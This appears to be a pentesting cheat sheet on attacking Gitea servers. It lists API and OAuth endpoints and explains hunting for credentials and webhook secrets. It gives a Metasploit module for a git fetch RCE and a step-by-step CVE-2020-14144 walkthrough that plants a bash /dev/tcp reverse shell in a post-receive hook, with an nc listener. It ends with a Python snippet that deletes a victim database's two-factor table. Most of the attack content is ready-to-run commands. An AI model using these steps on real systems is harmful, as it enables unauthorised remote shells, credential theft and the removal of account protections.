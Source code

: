 ```yaml
---
title: Gitea Pentesting
description: Gitea is a forge software package for hosting software development version control using Git.
tags:
    - Web
refs:
date: 2023-07-06
draft: false
---
```


## Common Directories

```bash
/api/swagger
/api/v1/repos/search?q=test
/api/v1/users/search?q=test
/api/v1/users/<username>/repos
/explore/organizations
/explore/repos
/explore/users

# OAuth
/.well-known/openid-configuration
/login/oauth/authorize
/login/oauth/access_token
/login/oauth/userinfo
/login/oauth/keys
```

<br />

## Investigation

### Repositories

If we can access to repositories, we might be able to find sensitive information e.g. credentials, subdomains, other domains, secret keys, etc.  
So check the source code.

### Get Secrets in Web Hooks

In the existing repository, we may find the secret value in the **repository → Settings → Web Hooks**.

### Find User Credentials

If we have access to the target system and the repository, that is pushed in Gitea, exists in the system, we might be able to find the credential.

```sh
cd /path/to/gitea/repo
git config -l
```

<br />


## Git Fetch Remote Code Execution (RCE)

### Metasploit

```bash
msfconsole
msf> use exploit/multi/http/gitea_git_fetch_rce
msf> (set options)
msf> run
```

<br />

## Git Hooks Remote Code Execution (RCE)

[CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce)  
It affects Gitea version from 1.1.0 to 1.13.


### 1. Login

Access to the Gitea dashboard and login as the existing account.

### 2. Create a New Repository

### 3. Go to the Repository’s Settings

In the new repository we’ve created, go to **Settings → Git Hooks → post-receive**.

### 4. Update to the Reverse Shell Payload

In the post-receive edit page, inject the payload as below:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.0.0.1/4444
```

### 5. Start Listener in Terminal

To receive the outcoming connection of the git hook, start listener.

```bash
nc -lvnp 4444
```

### 6. Create the New Repository in Terminal

```bash
mkdir test
cd test
touch README.md
git init
git add README.md
git commit -m "first commit"
git remote add origin https://<target-ip>/<username>/test.git
git push -u origin master
```

After pushing, git hook triggered and execute the reverse shell command.  
Now we should get a shell.

<br />

## Swagger API

We can access to **`/api/swagger`** to interact with **Swagger API**.

### Get New Token & Authorize

We need a token to use Swagger API.

1. Register a new account in Gitea top page.
2. Go to **`/user/settings/applications`** and generate a new token.
3. Copy the token value e.g. “fa2c2428817d64c1b890d404a905f7be2ffd4bde”.
4. Go to **`/api/swagger`**.
5. Click “Authorize” button. The modal window opens.
6. Paste the token in the “Token” section.

<br />

## Delete the Two-Factor

```sh
victim@machine:/gitea/gitea$ python3

>>> import sqlite3
>>> conn=sqlite3.connect('gitea.db')
>>> conn.execute('delete from two_factor')
>>> conn.commit()
>>> conn.close()
```
